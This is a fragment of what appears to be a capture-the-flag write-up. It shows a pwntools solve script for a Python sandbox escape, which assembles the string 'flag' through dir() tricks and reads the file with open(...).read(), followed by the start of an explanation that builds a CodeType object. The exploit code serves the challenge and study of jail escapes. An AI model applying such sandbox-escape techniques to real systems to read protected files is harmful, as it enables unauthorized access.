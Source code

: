 ```py
        pos = s.find(v)
        print(v, s, pos)
        return _dfind(i, pos)
    raise Exception()
    


def sl(s : str):
    p.sendline(s.encode())

#('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'), #names
p.sendline((builtins[0] + " = None").encode())
p.sendline(("dir").encode())
p.sendline(("dir().__iter__").encode())
p.sendline((builtins[2] + " = None").encode())
p.sendline(("dir().__iter__().__next__").encode())
p.sendline(b"print")
p.sendline(b"open")

p.sendline(b"read"+ b" = None")
#p.sendline(b"print(None == None)")

str_dir = f"dir(dir()[{val(0)}])"

dfind("f")

sl(f"{builtins[2]} = {builtins[0]}")
dfind("l")

sl(f"{builtins[2]} += {builtins[0]}")
dfind("a")

sl(f"{builtins[2]} += {builtins[0]}")
dfind("g")

sl(f"{builtins[2]} += {builtins[0]}")
# sl(f"print({builtins[2]})")
sl(f"print(open({builtins[2]}).read())")


p.sendline()
p.interactive()


```


## Explanation:


```py
    to_exec = CodeType(
        0,
        0,
        0,
        1,
        10,
        0,
        g.co_code,      #codestring
        (None,),        #constants
        ('p', 'dir', '__iter__', 'f', '__next__', 'print', 'open', 'read'), #names
        ('a',),         #varnames
        '<string>',
        '<module>',
```